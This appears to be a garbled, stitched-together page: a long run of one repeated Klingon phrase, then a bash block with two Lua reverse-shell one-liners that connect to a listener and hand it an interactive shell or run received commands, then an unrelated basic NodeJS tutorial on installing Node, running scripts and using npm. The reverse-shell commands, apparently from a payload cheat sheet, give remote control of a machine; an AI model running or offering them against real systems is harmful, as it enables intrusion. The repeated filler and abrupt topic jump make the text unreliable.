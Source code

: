 vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e' vItlhutlh. 'e' vItlhutlh 'e'
```bash
#Linux
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
#Windows & Linux
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## NodeJS

### Introduction

Node.js is an open-source, cross-platform JavaScript runtime environment that allows developers to build server-side and networking applications. It uses an event-driven, non-blocking I/O model that makes it lightweight and efficient.

### Installation

To install Node.js on a Linux system, you can use the package manager of your distribution. For example, on Ubuntu, you can run the following command:

```bash
sudo apt-get install nodejs
```

### Running Node.js Scripts

To run a Node.js script, you can use the `node` command followed by the name of the script file. For example:

```bash
node script.js
```

### NPM (Node Package Manager)

NPM is the default package manager for Node.js. It allows you to easily install, manage, and update packages and dependencies for your Node.js projects.

To install a package using NPM, you can use the `npm install` command followed by the name of the package. For example:

```bash
npm install express
```
